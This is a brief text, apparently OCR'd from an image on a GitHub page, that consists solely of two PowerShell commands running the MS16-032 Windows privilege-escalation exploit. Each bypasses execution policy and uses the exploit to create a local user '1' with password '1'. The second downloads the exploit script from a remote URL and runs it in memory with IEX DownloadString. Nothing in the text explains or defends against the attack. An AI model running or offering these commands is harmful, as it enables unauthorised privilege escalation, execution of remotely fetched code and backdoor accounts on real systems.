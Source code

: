 powershell.exe -exec bypass -Command "& {Import-Module C:\windows\temp\Invoke-MS16-032.ps1;Invoke-MS16-032 -Application cmd.exe -Commandline '/c net user 1 1 / add'}" > C:\windows\temp\Invoke-MS16-032.log
or
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://sourcegraph.com/github.com/AA8j/PowerShell@main/-/raw/%E6%8F%90%E6%9D%83/MS16-032/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -Commandline '/c net user 1 1 / add'" > C:\windows\temp\Invoke-MS16-032.log
